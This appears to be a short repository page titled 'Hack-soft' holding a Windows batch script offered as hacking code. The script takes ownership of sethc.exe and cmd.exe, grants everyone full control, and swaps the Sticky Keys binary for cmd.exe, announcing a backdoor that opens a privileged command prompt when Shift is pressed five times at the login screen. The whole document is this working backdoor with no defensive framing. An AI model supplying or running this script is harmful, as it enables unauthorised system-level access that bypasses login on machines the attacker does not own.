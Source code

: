 # Hack-soft
Hacking code
@echo off

takeown /f "C:\Windows\System32\sethc.exe"

takeown /f "C:\Windows\System32\cmd.exe"

icacls "C:\Windows\System32\sethc.exe" /grant everyone:F

icacls "C:\Windows\System32\cmd.exe" /grant everyone:F

md "C:/backdoorbackup"

copy "C:\Windows\System32\sethc.exe" "C:/backdoorbackup/sethc.exe"

del "C:\Windows\System32\sethc.exe"

copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\sethc.exe"

cls

echo backdoor installed. press shift five times or (alt+shift+prtsc) to open.

pause
